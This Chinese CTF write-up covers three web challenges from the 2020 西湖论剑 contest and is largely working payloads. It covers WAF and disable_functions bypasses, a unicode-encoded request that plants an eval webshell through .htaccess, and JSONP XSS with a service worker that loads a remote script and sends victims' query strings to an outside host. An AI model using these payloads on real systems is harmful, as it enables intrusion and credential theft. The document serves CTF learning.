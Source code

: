 date: 2020-10-15
categories:
- 比赛
tags:
- web
- ctf
- wp
title: 2020西湖论剑
---
# 西湖论剑

## NewUpload

hint:
我装了宝塔 waf，apache 环境，自己本地配一套这种环境就知道怎么弄了。
看看宝塔自己装的 apache 有什么东西？

%00干掉宝塔waf





任意文件上传过滤php关键字
上传.htaccess绕过
普通的payload并不适用与php-fpm通信
在`/www/server/panel/vhost/apache`下发现php的解析方式

```
 #PHP
    <FilesMatch \.php$>
            SetHandler "proxy:unix:/tmp/php-cgi-74.sock|fcgi://localhost"
    </FilesMatch>
```

直接设置`SetHandler "proxy:unix:/tmp/php-cgi-74.sock|fcgi://localhost"`，访问我们上传的后门并不行，查了下资料发现php-fpm有security.limit_extensions限制了php脚本的后缀名，它的默认值是:` .php .phar`

所以我们上传phar文件getshell,getshell后发现，我们需要readflag而，命令执行函数都被干掉了，php版本是php 7.4.10




```
passthru,exec,system,putenv,chroot,chgrp,chown,shell_exec,popen,proc_open,pcntl_exec,ini_alter,ini_restore,dl,openlog,syslog,readlink,symlink,popepassthru,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,imap_open,apache_setenv
```

把https://github.com/Explorersss/exploits中的脚本试过一边后都不行

但是这里php-fpm服务是通过socket文件通信的，我们可以直接打php-fpm绕过disable function

https://gist.githubusercontent.com/Explorersss/452ba2ed228dee841ac474b5d96f1581/raw/dc35576e0a4448b33da381fd2980d586aedc4e01/bypass_disable_function_by_fpm.php



## easyjson

```php
<?php
include 'security.php';

if(!isset($_GET['source'])){
    show_source(__FILE__);
    die();
}
$sandbox = 'sandbox/'.sha1($_SERVER['HTTP_X_FORWARDED_FOR']).'/';
var_dump($sandbox);
if(!file_exists($sandbox)){
    mkdir($sandbox);
    file_put_contents($sandbox."index.php","<?php echo 'Welcome To Dbapp OSS.';?>");
}
$action = $_GET['action'];
$content = file_get_contents("php://input");


if($action == "write" &&  SecurityCheck('filename',$_GET['filename']) &&SecurityCheck('content',$content)){
    $content = json_decode($content);
    $filename = $_GET['filename'];
    $filecontent = $content->content;
    $filename = $sandbox.$filename;
    file_put_contents($filename,$filecontent."\n Powered By Dbapp OSS.");
}elseif($action == "reset"){
    $files = scandir($sandbox);
    foreach($files as $file) {
        if(!is_dir($file)){
            if($file !== "index.php"){
                unlink($sandbox.$file);
            }
        }
    }
}
else{
    die('Security Check Failed.');
}
```



```
POST /?source=1&action=write&filename=index.php HTTP/1.1
Host: easyjson.xhlj.wetolink.com
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 439

{"\u0063\u006f\u006e\u0074\u0065\u006e\u0074":"\u0070\u0068\u0070\u005f\u0076\u0061\u006c\u0075\u0065\u0020\u0061\u0075\u0074\u006f\u005f\u0070\u0072\u0065\u0070\u0065\u006e\u0064\u005f\u0066\u0069\u006c\u0065\u0020\u0022\u002e\u0068\u0074\u0061\u0063\u0063\u0065\u0073\u0073\u0022\u000a\u0023\u003c\u003f\u0070\u0068\u0070\u0020\u0065\u0076\u0061\u006c\u0028\u0024\u005f\u0050\u004f\u0053\u0054\u005b\u0031\u005d\u0029\u003b\u003f\u003e"}
```

flag{a5db5397505f825334aa4dfc17d3bb9f}

## hardxss

在登入接口发现如下代码：

```javascript
callback = "get_user_login_status";
		auto_reg_var();
		if(typeof(jump_url) == "undefined" || /^\//.test(jump_url)){
			jump_url = "/";
		}
		jsonp("https://auth.hardxss.xhlj.wetolink.com/api/loginStatus?callback=" + callback,function(result){
			if(result['status']){
				location.href = jump_url;
			}
		})
		function jsonp(url, success) {
		    var script = document.createElement("script");
		    if(url.indexOf("callback") < 0){
		    	var funName = 'callback_' + Date.now() + Math.random().toString().substr(2, 5);
		    	url = url + "?" + "callback=" + funName;
		    }else{
		    	var funName = callback;
		    }
		    window[funName] = function(data) {
		        success(data);
		        delete window[funName];
		        document.body.removeChild(script);
		    }
		    script.src = url;
		    document.body.appendChild(script);
		}
		function auto_reg_var(){
			var search = location.search.slice(1);
			var search_arr = search.split('&');
			for(var i = 0;i < search_arr.length; i++){
				[key,value] = search_arr[i].split("=");
				window[key] = value;
			}
		}
```

利用jsonp任意xss

view-source:https://xss.hardxss.xhlj.wetolink.com/login?callback=jsonp(%22//ffffuck.free.beeceptor.com/%22);

利用Service Workers从xss.hardxss.xhlj.wetolink.com移动到auth.hardxss.xhlj.wetolink.com

https://xss.hardxss.xhlj.wetolink.com/login?callback=jsonp(%22//abcde.free.beeceptor.com/2%22);//

2:

```javascript
document.domain="hardxss.xhlj.wetolink.com";
a=document.createElement("iframe");
a.src="https://auth.hardxss.xhlj.wetolink.com";
document.body.append(a);
document.getElementsByTagName("iframe")[0].addEventListener("load",()=>{fuck()})
function fuck(){
    var code = `navigator.serviceWorker.register("/api/loginStatus?callback=self.importScripts('//serviceworker.free.beeceptor.com/exp.js');//")`;
    document.getElementsByTagName("iframe")[0].contentWindow.eval(code);
}

```

/:

```javascript
self.addEventListener('fetch', function(event) {
  event.respondWith(new Response('<html><script>document.location.href="http://ccreater.top:60000/?"+document.location.search</script></html>',{headers: { 'Content-Type': 'text/html' }}));
});
```

![image5725](https://raw.githubusercontent.com/Explorersss/photo/master/20201015222800.png)

![image5832](https://raw.githubusercontent.com/Explorersss/photo/master/20201015222516.png)

详细说明见：http://blog.ccreater.top/2020/10/15/Service%20Worker/